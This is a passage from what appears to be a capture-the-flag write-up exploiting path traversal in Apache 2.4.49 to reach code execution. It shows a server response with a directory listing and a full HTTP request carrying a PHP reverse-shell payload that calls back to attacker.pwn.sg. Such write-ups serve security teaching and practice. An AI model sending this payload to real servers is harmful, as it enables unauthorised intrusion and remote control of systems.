 The response yields a directory listing including a `flag.txt` file owned by `root:vulncon` along
with the output of `id` indicating that we have code execution as the `www-data` user. This means
that we will have to perform privilege escalation before we can read the flag.

```
HTTP/1.1 200 OK
Date: Sat, 04 Dec 2021 20:02:50 GMT
Server: Apache/2.4.49 (Debian)
Connection: close
Content-Length: 1632

www-data
total 2136
drwxr-xr-x   1 root root       4096 Dec  4 06:22 .
drwxr-xr-x   1 root root       4096 Dec  4 06:22 ..
-rwxr-xr-x   1 root root          0 Dec  4 06:22 .dockerenv
-rw-r--r--   1 root root    1402156 Nov  6 06:12 apache2-bin_2.4.49-4_amd64.deb
-rw-r--r--   1 root root     159956 Nov  6 06:12 apache2-data_2.4.49-4_all.deb
-rw-r--r--   1 root root     253952 Nov  6 06:12 apache2-utils_2.4.49-4_amd64.deb
-rw-r--r--   1 root root     268632 Nov  6 06:12 apache2_2.4.49-4_amd64.deb
drwxr-xr-x   1 root root       4096 Dec  4 06:21 bin
drwxr-xr-x   2 root root       4096 Aug 22 17:00 boot
drwxr-xr-x   5 root root        340 Dec  4 06:22 dev
-rwxr-xr-x   1 root root         68 Nov  6 06:12 entry.sh
drwxr-xr-x   1 root root       4096 Dec  4 06:22 etc
-r--r-----   1 root vulncon      24 Dec  4 06:21 flag.txt
drwxr-xr-x   1 root root       4096 Dec  4 06:22 home
drwxr-xr-x   1 root root       4096 Dec  1 00:00 lib
drwxr-xr-x   2 root root       4096 Dec  1 00:00 lib64
drwxr-xr-x   2 root root       4096 Dec  1 00:00 media
drwxr-xr-x   2 root root       4096 Dec  1 00:00 mnt
drwxr-xr-x   2 root root       4096 Dec  1 00:00 opt
dr-xr-xr-x 162 root root          0 Dec  4 06:22 proc
drwx------   2 root root       4096 Dec  1 00:00 root
drwxr-xr-x   1 root root       4096 Dec  4 06:22 run
drwxr-xr-x   1 root root       4096 Dec  4 06:21 sbin
drwxr-xr-x   2 root root       4096 Dec  1 00:00 srv
dr-xr-xr-x  13 root root          0 Dec  4 10:45 sys
drwxrwxrwt   1 root root       4096 Dec  4 18:51 tmp
drwxr-xr-x   1 root root       4096 Dec  1 00:00 usr
drwxr-xr-x   1 root root       4096 Dec  4 06:21 var

```

A reverse shell is obtained with the following payload:

```
GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 139.59.2.201
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 132


echo;php -r '$sock=fsockopen("attacker.pwn.sg",1337);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

```
